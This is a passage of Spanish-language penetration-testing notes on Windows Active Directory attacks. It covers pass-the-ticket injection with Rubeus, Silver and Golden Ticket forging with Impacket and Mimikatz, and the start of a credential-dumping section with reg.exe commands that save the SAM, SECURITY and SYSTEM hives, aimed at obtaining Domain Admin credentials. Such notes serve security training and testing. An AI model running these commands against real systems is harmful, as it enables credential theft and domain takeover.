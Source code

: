 ```bash
Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-[domain name].kirbi
```

Tras inyectar el ticket de un usuario, es posible suplantarlo en máquinas remotas, pero no en la local, donde no se aplica Kerberos.

## Silver Ticket

Se basa en construir un TGS válido para un servicio con el hash NTLM del propietario del servicio. Es posible acceder a este servicio con un TGS personalizado que contenga privilegios más elevados.
Es posible forjar tickets utilizando las claves AES de un usuario (AES128 y AES256) las cuales se calculan a partir de la contraseña del mismo, aunque a diferencia del hash NTLM, se encuentran salteadas con el dominio y el nombre del usuario.

Desde Linux, usando **ticketer.py** de Impacket:

```bash
python ticketer.py -nthash [NTLM hash] -domain-sid [sid] -domain [domain_name] -spn
```

Ejecución similar a PTT, pero el ticket se crea manualmente a través del hash NTLM.

Desde Windows, usando Mimikatz para forjar el ticket, se debe tener en cuenta que el ticket se puede construir en una máquina local fuera de la red objetivo, y luego enviarselo a la máquina deseada e inyectarlo con Rubeus, y ejecutar comandos remotos con PsExec.py

```bash
kerberos::golden /domain:[domain_name] /sid:[sid] /rc4:[NTLM] /user:[user] /service:[service] /target:[target_machine]
```

## Golden Ticket

Es similar al Silver Ticket, pero trata de crear un TGT utilizando el hash NTLM de la cuenta krbtgt del dominio.

<span style="color:red">Se pueden obtener el hash NTLM de la cuenta krbtgt del proceso lsass o fichero NTDS.dit de cualquier DC del dominio o utilizar la técnica DC sync utilizando el módulo lsadump::dcsync o secretsdump.py de Impacket (Se necesita privilegios de admin de DC)</span>

El método es el mismo desde Linux y Windows, pero con el hash de krbtgt. Es importante recordar que los tickets tienen 20 minutos de validación para PAC, por lo que es importante crear los tickets y usarlos después.

## Dumping Credentials en Windows

Una vez que tenemos las credenciales de una cuenta sistema host (no del dominio) debemos obtener todas las contraseñas de cuentas posibles.<span style="color:red">El objetivo es obtener las credenciales de una cuenta que pertenezca al grupo Administradores del Dominio</span>

Tecnicas utilizadas para volcar las credenciales de un Windows Host comprometido:

1. Copiar los registros SAM, SECURITY y SYSTEM y descargarlos en el sistema local:

- C:> reg.exe save hklm\sam C:\temp\sam.save
- C:> reg.exe save hklm\security C:\temp\security.save
- C:> reg.exe save hklm\system C:\temp\system.save

